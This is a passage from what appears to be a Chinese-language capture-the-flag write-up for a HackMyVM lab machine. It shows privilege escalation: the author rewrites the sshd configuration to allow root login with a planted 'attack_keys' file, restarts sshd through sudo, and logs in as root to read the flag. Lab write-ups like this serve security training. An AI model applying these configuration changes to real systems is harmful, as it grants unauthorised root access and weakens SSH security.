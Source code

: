     > 参数解释：
    > 
    > - **PermitRootLogin yes**：允许 `root` 用户通过 SSH 登录。
    > - **StrictModes no**：禁用权限严格检查，避免因权限问题阻止 SSH 登录。
    > - **AuthorizedKeysFile `/home/ssh/.ssh/attack_keys`**：指定使用自定义的公钥文件 `attack_keys`。
5. 修改`ssh_config` ，注释掉`banner`
    
    ```python
    #Banner /etc/shadow
    ```
    
6. 重启服务，并使用密钥文件进行登录，即可获得`root`权限
    
    ```python
    jan:~/.ssh$ sudo /sbin/service sshd restart
     * Stopping sshd ...                                                                                                                                   [ ok ]
     * Starting sshd ...                                                                                                                                   [ ok ]
    jan:~/.ssh$ ssh root@localhost -i id_rsa
    Welcome to Alpine!
    
    The Alpine Wiki contains a large amount of how-to guides and general
    information about administrating Alpine systems.
    See <https://wiki.alpinelinux.org/>.
    
    You can setup the system with the command: setup-alpine
    
    You may change this message by editing /etc/motd.
    
    jan:~# ls
    root.txt  ver.sh
    jan:~# id
    uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
    jan:~# 
    
    ```
    

## RootFlag

```python
jan:~# cat root.txt 
HMV2PRMxxxxxxNGMBG
```